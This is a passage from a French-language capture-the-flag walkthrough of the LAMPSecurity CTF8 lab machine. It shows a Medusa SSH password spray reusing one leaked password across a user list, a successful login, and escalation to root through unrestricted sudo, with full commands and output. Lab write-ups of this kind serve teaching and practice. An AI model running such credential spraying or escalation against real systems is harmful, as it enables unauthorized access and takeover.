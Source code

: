 Seul le compte admin a pour mot de passe ```football123```. Quid des comptes SSH ?

```console
root@blinils:~# medusa -h 192.168.56.102 -U drupal_users.txt -p football123 -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 21, 0 complete) Password: football123 (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: anonymous (2 of 21, 1 complete) Password: football123 (1 of 1 complete)
--snip--
ACCOUNT FOUND: [ssh] Host: 192.168.56.102 User: spinkton Password: football123 [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: jharraway (20 of 21, 19 complete) Password: football123 (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: sswiney (21 of 21, 20 complete) Password: football123 (1 of 1 complete)
```

Bingo ! Il est possible de se connecter en SSH au serveur LAMPSecurity CTF8 avec les _credentials_ ```spinkton:football123```.

```console
root@blinils:~# ssh spinkton@192.168.56.102
The authenticity of host '192.168.56.102 (192.168.56.102)' can't be established.
RSA key fingerprint is SHA256:xSrcP5XsyEzr8DCoPYgg+REQ93Uy3BY9DQekfL0l3+E.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.102' (RSA) to the list of known hosts.
Welcome to LAMPSecurity Research SSH access!
#flag#5e937c51b852e1ee90d42ddb5ccb8997

Unauthorized access is expected...
spinkton@192.168.56.102's password: 
Last login: Thu Mar 27 12:48:29 2014 from 192.168.56.1
#flag#motd-flag

[spinkton@localhost ~]$ id
uid=501(spinkton) gid=505(spinkton) groups=10(wheel),500(it),505(spinkton) --snip--
```

Dommage, comme la plupart des autres VM, l'élévation de privilèges est un jeu d'enfant ; en effet, le compte spinkton [dispose de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs et est autorisé à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commandes ```sudo su``` ou ```sudo /bin/bash``` et le tour est joué. Cependant, le _walkthrough_ est loin d'être terminé !

```console
[spinkton@localhost ~]$ sudo -l
Password: 
User spinkton may run the following commands on this host:
    (ALL) ALL
[spinkton@localhost ~]$ sudo /bin/bash

[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) --snip--
```
